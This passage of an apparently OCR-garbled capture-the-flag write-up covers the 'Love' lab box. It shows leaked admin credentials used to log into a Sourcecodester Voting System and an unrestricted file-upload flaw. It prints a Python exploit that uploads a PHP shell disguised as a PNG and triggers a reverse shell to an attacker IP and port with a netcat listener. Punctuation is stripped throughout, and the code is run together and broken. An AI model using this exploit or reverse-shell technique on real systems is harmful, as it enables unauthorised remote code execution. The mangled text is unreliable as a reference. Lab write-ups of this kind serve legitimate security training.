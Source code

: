      reports Love image14 png 

After completing the request  credentials to a user by the name of admin are leaked  Piecing this information together with the  Admin Page   h 4wslswsfx98j  found during the HTTP enumeration  it follows that we can login as the administrator  Using the credentials of admin  LoveIsInTheAir      the user s account could successfully be accessed 

     reports Love image7 png 

The result is a page with many different functionalities  but nothing interesting appeared  At the bottom of the page is a copyright from 2018 assigned to a website called Sourcecodester 

Reverse Shell
             

After researching  Voting System sourcecodester  on Google  results related to an RCE exploit via a file upload pop up 

The exploit works due to improper sanitization of image files  To upload a php shell as an image file  the exploit simply modifies the data of the POST request to replicate an image file 

     reports Love image1 png 

Note the  image png  line

Once this malicious file is uploaded  a GET request is performed on the file located in the  votesystem images directory  In the context of this box  the  votesystem directory does not exist  and the script needs to be modified to remove the  votesystem string 

   highlight python   
import requests      Edit your settings here     IP    10 10 10 239    Website s URLUSERNAME    admin   Auth usernamePASSWORD     LoveIsInTheAir        Auth PasswordREV IP    10 10 14 111    Reverse shell IPREV PORT    9001    Reverse port  
                                  INDEX PAGE   f http    IP  admin index php LOGIN URL   f http    IP  admin login php VOTE URL   f http    IP  admin voters add php CALL SHELL   f http    IP  images shell php   
  
payload   payload replace  IIPP   REV IP   
payload   payload replace  PPOORRTT   REV PORT   
  
def sendPayload      if login          global payload  
       payload   bytes payload  encoding  UTF 8    
       files      photo    shell php  payload                     image png     Content Disposition    form data    
                    
                
       data                firstname   a              lastname   b              password   1              add              
       r   s post VOTE URL  data data  files files        if r status code    200   
           print  Poc sent successfully         else   
           print  Error    
  
def callShell     
   r   s get CALL SHELL  verify False    if r status code    200   
       print  Shell called check your listiner    
print  Start a NC listner on the port you choose above and run       
sendPayload    
callShell  
   endhighlight   
